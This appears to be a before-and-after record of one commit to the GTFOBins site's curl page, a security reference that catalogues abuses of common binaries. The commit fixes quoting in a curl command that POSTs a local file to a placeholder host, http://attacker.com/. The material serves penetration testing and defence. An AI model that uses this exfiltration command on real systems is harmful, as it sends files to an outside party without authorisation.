

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide. Shown: the part 281-575 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix curl file-upload
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -5,7 +5,7 @@ functions:
       code: |
         URL=http://attacker.com/
         LFILE=file_to_send
-        curl -X POST -d @$file_to_send $URL
+        curl -X POST -d "@$LFILE" $URL
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
